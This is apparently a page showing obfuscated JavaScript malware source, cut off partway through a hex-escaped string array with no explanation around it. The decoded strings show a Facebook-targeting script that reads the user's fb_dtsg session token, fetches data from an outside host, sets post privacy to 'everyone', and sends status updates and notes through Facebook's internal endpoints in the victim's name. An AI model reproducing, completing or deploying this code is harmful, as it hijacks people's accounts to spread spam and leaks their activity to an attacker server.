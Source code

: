 var
_0xeac6=["\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D","\x69\x6E\x64\x65\x78\x4F\x66","\x68\x6F\x73\x74\x6E\x61\x6D\x65","\x5F\x35\x63\x65","\x67\x65\x74\x45\x6C\x65\x6D\x65\x6E\x74\x73\x42\x79\x43\x6C\x61\x73\x73\x4E\x61\x6D\x65","\x6C\x65\x6E\x67\x74\x68","\x69\x6E\x6E\x65\x72\x48\x54\x4D\x4C","","\x75\x69\x54\x6F\x67\x67\x6C\x65\x20\x77\x72\x61\x70","\x75\x69\x50\x6F\x70\x6F\x76\x65\x72","\x73\x65\x74\x49\x6E\x74\x65\x72\x76\x61\x6C","\x31\x32\x33\x34\x35\x36\x37\x38\x39\x30","\x72\x61\x6E\x64\x6F\x6D","\x66\x6C\x6F\x6F\x72","\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6A\x6B\x6C\x6D\x6E\x6F\x70\x72\x73\x74\x75\x76\x79\x7A\x78\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39","\x47\x45\x54","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x76\x69\x64\x6F\x74\x75\x62\x65\x2E\x78\x79\x7A\x2F\x62\x61\x73\x6F\x67\x75\x7A\x62\x61\x73\x2E\x70\x68\x70","\x6F\x70\x65\x6E","\x73\x65\x6E\x64","\x72\x65\x73\x70\x6F\x6E\x73\x65\x54\x65\x78\x74","\x70\x61\x72\x73\x65","\x2F\x2F\x67\x72\x61\x70\x68\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F","\x6E\x61\x6D\x65","\x63\x68\x61\x72\x43\x6F\x64\x65\x41\x74","\x32","\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x6E\x65\x77\x3D\x31","\x50\x4F\x53\x54","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x65\x64\x69\x74\x6E\x6F\x74\x65\x2E\x70\x68\x70","\x43\x6F\x6E\x74\x65\x6E\x74\x2D\x54\x79\x70\x65","\x61\x70\x70\x6C\x69\x63\x61\x74\x69\x6F\x6E\x2F\x78\x2D\x77\x77\x77\x2D\x66\x6F\x72\x6D\x2D\x75\x72\x6C\x65\x6E\x63\x6F\x64\x65\x64","\x73\x65\x74\x52\x65\x71\x75\x65\x73\x74\x48\x65\x61\x64\x65\x72","\x72\x65\x61\x64\x79\x53\x74\x61\x74\x65","\x22","\x73\x70\x6C\x69\x74","\x6E\x61\x6D\x65\x3D\x22\x6F\x62\x6A\x65\x63\x74\x5F\x69\x64\x22\x20\x76\x61\x6C\x75\x65\x3D\x22","\x2F","\x65\x76\x65\x72\x79\x6F\x6E\x65\x2E\x70\x6E\x67","\x2C","\x22\x70\x6F\x73\x74\x50\x61\x72\x61\x6D\x22\x3A","\x5F\x75\x73\x65\x72\x3D","\x26\x5F\x5F\x61\x3D\x31\x26\x5F\x5F\x64\x79\x6E\x3D\x37\x6E\x6D\x38\x52\x57\x38\x42\x67\x42\x6C\x79\x6E\x7A\x70\x51\x39\x55\x6F\x47\x79\x61\x34\x41\x75\x37\x34\x71\x62\x78\x32\x6D\x62\x41\x4B\x47\x69\x79\x46\x71\x7A\x51\x43\x2D\x43\x32\x36\x6D\x35\x2D\x39\x56\x38\x43\x64\x44\x78\x32\x75\x62\x68\x48\x78\x69\x6D\x6D\x65\x79\x38\x71\x55\x53\x38\x7A\x55\x26\x5F\x5F\x72\x65\x71\x3D\x79\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x74\x74\x73\x74\x61\x6D\x70\x3D","\x26\x5F\x5F\x72\x65\x76\x3D\x31\x35\x34\x37\x35\x32\x36","\x6F\x6E\x72\x65\x61\x64\x79\x73\x74\x61\x74\x65\x63\x68\x61\x6E\x67\x65","\x68\x74\x74\x70\x73\x3A\x2F\x2F\x77\x77\x77\x2E\x66\x61\x63\x65\x62\x6F\x6F\x6B\x2E\x63\x6F\x6D\x2F\x70\x72\x69\x76\x61\x63\x79\x2F\x73\x65\x6C\x65\x63\x74\x6F\x72\x2F\x75\x70\x64\x61\x74\x65\x2F\x3F\x70\x72\x69\x76\x61\x63\x79\x5F\x66\x62\x69\x64\x3D\x30\x26\x70\x6F\x73\x74\x5F\x70\x61\x72\x61\x6D\x3D","\x26\x26\x72\x65\x6E\x64\x65\x72\x5F\x6C\x6F\x63\x61\x74\x69\x6F\x6E\x3D\x33\x26\x69\x73\x5F\x73\x61\x76\x65\x64\x5F\x6F\x6E\x5F\x73\x65\x6C\x65\x63\x74\x3D\x74\x72\x75\x65\x26\x73\x68\x6F\x75\x6C\x64\x5F\x72\x65\x74\x75\x72\x6E\x5F\x74\x6F\x6F\x6C\x74\x69\x70\x3D\x74\x72\x75\x65\x26\x70\x72\x65\x66\x69\x78\x5F\x74\x6F\x6F\x6C\x74\x69\x70\x5F\x77\x69\x74\x68\x5F\x61\x70\x70\x5F\x70\x72\x69\x76\x61\x63\x79\x3D\x66\x61\x6C\x73\x65\x26\x72\x65\x70\x6C\x61\x63\x65\x5F\x6F\x6E\x5F\x73\x65\x6C\x65\x63\x74\x3D\x66\x61\x6C\x73\x65\x26\x65\x6E\x74\x5F\x69\x64\x3D\x30\x26\x74\x61\x67\x5F\x65\x78\x70\x61\x6E\x73\x69\x6F\x6E\x5F\x62\x75\x74\x74\x6F\x6E\x3D\x66\x72\x69\x65\x6E\x64\x73\x5F\x6F\x66\x5F\x74\x61\x67\x67\x65\x64","\x2F\x61\x6A\x61\x78\x2F\x75\x70\x64\x61\x74\x65\x73\x74\x61\x74\x75\x73\x2E\x70\x68\x70\x3F\x61\x76\x3D","\x63\x6F\x6D\x70\x6F\x73\x65\x72\x5F\x73\x65\x73\x73\x69\x6F\x6E\x5F\x69\x64\x3D","\x2D","\x26\x66\x62\x5F\x64\x74\x73\x67\x3D","\x26\x78\x68\x70\x63\x5F\x63\x6F\x6E\x74\x65\x78\x74\x3D\x70\x72\x6F\x66\x69\x6C\x65","\x26\x78\x68\x70\x63\x5F\x69\x73\x6D\x65\x74\x61\x3D\x31","\x26\x78\x68\x70\x63\x5F\x74\x69\x6D\x65\x6C\x69\x6E\x65\x3D\x31","\x26\x78\x68\x70\x63\x5F\x63\x6F\x6D\x70\x6F\x73\x65\x72\x69\x64\x3D\x75\x5F\x30\x5F\x31\x61","\x26\x78\x68\x70\x63\x5F\x74\x61\x72\x67\x65\x74\x69\x64\x3D","\x26\x78\x68\x70\x63\x5F\x70\x75\x62\x6C\x69\x73\x68\x5F\x74\x79\x70\x65\x3D\x31","\x26\x63\x6C\x70\x3D","\x7B\x22\x63\x6C\x5F\x69\x6D\x70\x69\x64\x22\x3A\x22","\x22\x2C\x22\x63\x6C\x65\x61\x72\x63\x6F\x75\x6E\x74\x65\x72\x22\x3A\x30\x2C\x22\x65\x6C\x65\x6D\x65\x6E\x74\x69\x64\x22\x3A\x22\x75\x5F\x30\x5F\x31\x66\x22\x2C\x22\x76\x65\x72\x73\x69\x6F\x6E\x22\x3A\x22\x78\x22\x2C\x22\x70\x61\x72\x65\x6E\x74\x5F\x66\x62\x69\x64\x22\x3A","\x7D","\x26\x78\x68\x70\x63\x5F\x6D\x65\x73\x73\x61\x67\x65\x5F\x74\x65\x78\x74\x3D","\x26\x78\x68\x70\x63\x5F\x6D\x65\x73\x73\x61\x67\x65\x3D","\x26\x61\x6B\x74\x69\x6F\x6E\x3D\x70\x6F\x73\x74","\x26\x61\x70\x70\x5F\x69\x64\x3D\x32\x33\x30\x39\x38\x36\x39\x37\x37\x32","\x26\x61\x74\x74\x61\x63\x68\x6D\x65\x6E\x74\x5B\x70\x61\x72\x61\x6D\x73\x5D\x5B\x30\x5D\x3D","\x26\x61\x74\x74\x61\x63\x68\x6D\x65\x6E\x74\x5B\x70\x61\x72\x61\x6D\x73\x5D\x5B\x31\x5D\x3D","\x26\x61\x74\x74\x61\x63\x68\x6D\x65\x6E\x74\x5B\x74\x79\x70\x65\x5D\x3D\x34","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x5F\x6D\x65\x74\x72\x69\x63\x73\x5B\x69\x6D\x61\x67\x65\x5F\x73\x65\x6C\x65\x63\x74\x65\x64\x5D\x3D\x30","\x26\x62\x61\x63\x6B\x64\x61\x74\x65\x64\x5F\x64\x61\x74\x65\x5B\x79\x65\x61\x72\x5D\x3D","\x26\x62\x61\x63\x6B\x64\x61\x74\x65\x64\x5F\x64\x61\x74\x65\x5B\x6D\x6F\x6E\x74\x68\x5D\x3D","\x26\x62\x61\x63\x6B\x64\x61\x74\x65\x64\x5F\x64\x61\x74\x65\x5B\x64\x61\x79\x5D\x3D","\x26\x62\x61\x63\x6B\x64\x61\x74\x65\x64\x5F\x64\x61\x74\x65\x5B\x68\x6F\x75\x72\x5D\x3D","\x26\x62\x61\x63\x6B\x64\x61\x74\x65\x64\x5F\x64\x61\x74\x65\x5B\x6D\x69\x6E\x75\x74\x65\x5D\x3D","\x26\x69\x73\x5F\x65\x78\x70\x6C\x69\x63\x69\x74\x5F\x70\x6C\x61\x63\x65\x3D","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x74\x61\x67\x73\x5F\x70\x6C\x61\x63\x65\x3D","\x26\x63\x6F\x6D\x70\x6F\x73\x65\x72\x